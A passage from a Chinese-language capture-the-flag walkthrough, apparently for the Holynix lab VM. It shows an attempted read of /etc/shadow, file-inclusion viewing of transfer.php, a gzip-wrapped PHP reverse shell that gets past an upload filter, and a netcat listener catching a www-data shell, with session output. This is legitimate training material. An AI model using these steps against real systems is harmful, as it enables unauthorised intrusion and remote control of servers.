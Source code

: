-   尝试读取`/etc/shadow`文件失败，根据之前文件上传时的提示，上传的位置应该是在当前用户的`/home`目录下，尝试访问

-   ![image-20230529113823496](https://raw.githubusercontent.com/r0o983/images/main/image-20230529113823496.png)

-   本机建立监听，获取反弹shell

-   ![image-20230529113919077](https://raw.githubusercontent.com/r0o983/images/main/image-20230529113919077.png)

-   文件读取失败，提示权限不足，在之前上传的文件中提示`The ownership of the uploaded file(s) have been changed accordingly.`**文件上传成功，但是更改了文件权限**。 所以继续尝试使用gzip压缩包进行上传，上传之后还是执行不了

-   继续使用文件包含漏洞查看`transfer.php`的页面源码

-   ![image-20230529120952370](https://raw.githubusercontent.com/r0o983/images/main/image-20230529120952370.png)

-   使用tar创建gzip文件

-   ```shell
    └─$ tar -zcf php-reverse-shell.php.gz php-reverse-shell.php
    
    
    参数：
    	-c 创建压缩包
    	-z 使用gzip格式进行压缩
    	-f 指定压缩名称
    ```
    
-   上传成功并成功执行

-   ![image-20230529205723082](https://raw.githubusercontent.com/r0o983/images/main/image-20230529205723082.png)

-   在本地建立监听，等待连接

-   ```shell
    └─$ nc -nvlp 1234
    listening on [any] 1234 ...
    connect to [192.168.2.128] from (UNKNOWN) [192.168.2.139] 51357
    Linux holynix 2.6.24-26-server #1 SMP Tue Dec 1 19:19:20 UTC 2009 i686 GNU/Linux
     23:15:28 up 20 min,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: can't access tty; job control turned off
    $ whoami
    www-data
    $ uname -a
    Linux holynix 2.6.24-26-server #1 SMP Tue Dec 1 19:19:20 UTC 2009 i686 GNU/Linux
    $ ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
        link/ether 00:0c:29:bc:05:de brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.139/24 brd 192.168.2.255 scope global eth0
        inet6 fe80::20c:29ff:febc:5de/64 scope link 
           valid_lft forever preferred_lft forever
    